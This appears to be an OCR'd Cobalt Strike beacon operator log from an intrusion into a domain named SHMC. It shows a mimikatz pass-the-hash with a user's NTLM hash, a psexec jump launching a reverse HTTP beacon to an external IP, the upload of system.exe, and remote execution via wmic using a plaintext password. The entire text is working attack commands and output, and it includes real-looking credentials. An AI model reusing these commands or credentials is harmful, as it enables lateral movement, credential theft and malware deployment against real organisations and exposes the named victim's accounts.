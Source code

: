 ```
F       55386   11/21/2021 23:14:42     zabbix_agentd.log


beacon> rev2self  
[*] Tasked beacon to revert token  
beacon> pth SHMC\sergeev.ma 924ec7e19e5de227b76184d71a231c1b  
[*] Tasked beacon to run mimikatz's sekurlsa::pth /user:sergeev.ma /domain:SHMC /ntlm:924ec7e19e5de227b76184d71a231c1b /run:"%COMSPEC% /c echo 9d894ea6456 > \\.\pipe\1f6e26" command  
[+] host called home, sent: 31 bytes  
beacon> jump psexec64 AQUILA sex  
[*] Tasked beacon to run windows/beacon_http/reverse_http (173.249.45.143:80) on AQUILA via Service Control Manager (\\AQUILA\ADMIN$\1be690b.exe)
[+] host called home, sent: 296055 bytes   
Impersonated NT AUTHORITY\SYSTEM  
  
03/23 22:52:49 UTC [output]  
received output:  
user    : sergeev.ma  
domain  : SHMC  
program : C:\Windows\system32\cmd.exe /c echo 9d894ea6456 > \\.\pipe\1f6e26  
impers. : no  
NTLM    : 924ec7e19e5de227b76184d71a231c1b  
 |  PID  24960  
 |  TID  23900  
 |  LSA Process is now R/W  
 |  LUID 1 ; 2706187083 (00000001:a14d234b)  
 \_ msv1_0   - data copy @ 000001E8E12B2450 : OK !  
 \_ kerberos - data copy @ 000001E8E00A6B18  
  \_ aes256_hmac       -> null                
  \_ aes128_hmac       -> null                
  \_ rc4_hmac_nt       OK  
  \_ rc4_hmac_old      OK  
  \_ rc4_md4           OK  
  \_ rc4_hmac_nt_exp   OK  
  \_ rc4_hmac_old_exp  OK  
  \_ *Password replace @ 000001E8E1FAFCE8 (32) -> null  
  
  
[+] host called home, sent: 291366 bytes  
[-] Could not start service 1be690b on AQUILA: 225

beacon> cd C:\windows\temp  
[+] host called home, sent: 23 bytes  
beacon> upload /home/userware/system.exe  
[*] Tasked beacon to upload /home/userware/system.exe as system.exe
[+] host called home, sent: 288278 bytes

beacon> shell copy system.exe \\AQUILA\C$\  
[*] Tasked beacon to run: copy system.exe \\AQUILA\C$\  
[+] host called home, sent: 59 bytes  
[+] received output:  
       1 file(s) copied.  
  
  
beacon> run wmic /node:AQUILA /user:sergeev.ma /password:iJEL6TEt process call create "cmd.exe /c c:\system.exe"  
[*] Tasked beacon to run: wmic /node:AQUILA /user:sergeev.ma /password:iJEL6TEt process call create "cmd.exe /c c:\system.exe"  
03/23 22:59:55 UTC [checkin] host called home, sent: 118 bytes  
03/23 22:59:57 UTC [output]  
received output:  
Executing (Win32_Process)->Create()  
Method execution successful.  
```